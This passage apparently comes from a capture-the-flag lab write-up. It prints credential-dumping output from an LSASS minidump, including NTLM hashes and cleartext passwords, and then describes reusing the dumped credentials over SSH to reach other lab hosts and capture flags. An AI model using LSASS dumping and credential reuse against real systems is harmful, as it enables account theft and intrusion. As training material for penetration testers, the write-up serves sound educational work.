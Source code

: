 ```ps
Opening : 'C:\Users\brun0\AppData\Local\Temp\lsass.DMP' file for minidump...

User Name         : rogerio.marques
Domain            : BAJORDAS
Logon Server      : WIN-DC01
Logon Time        : 8/23/2022 10:11:40 PM
SID               : S-1-5-21-705575555-4224697876-3339875019-1121
        msv :
         [00000003] Primary
         * Username : rogerio.marques
         * Domain   : BAJORDAS
         * NTLM     : a3d7d25665f1146b56192b850fd57a93
         * SHA1     : 78936dac0d808daf0f58313fa74666ef26b41e40
         * DPAPI    : 6ccf347c45ff34bd7211b7d286a25d23
        kerberos :
         * Username : rogerio.marques
         * Domain   : BAJORDAS.LOCAL
         * Password : Summer2022

Authentication Id : 0 ; 440390 (00000000:0006b846)
Session           : RemoteInteractive from 3
User Name         : Administrator
Domain            : LAB-WIN6
Logon Server      : LAB-WIN6
Logon Time        : 8/22/2022 10:52:50 PM
SID               : S-1-5-21-4139696292-2348944387-3964195370-500
        msv :
        tspkg :
        wdigest :
        kerberos :
        ssp :
        credman :
         [00000000]
         * Username : BAJORDAS\bacano.do.it
         * Domain   : BAJORDAS\bacano.do.it
         * Password : ViniVidiVici420!
```

- Next thing I did was to login with ssh in `192.168.111.31` with `bacano.do.it` and I got the flag  

```
flag{pinguinsRPeople2}
```

- There was another challenge called `Shells, Shells, Shells` but I got the flag on this one too by using ssh in `192.168.111.34` with the same creds of `bacano.do.it`

```
flag{OneMore4TheRoad}
```


## First Linux Priv Esc
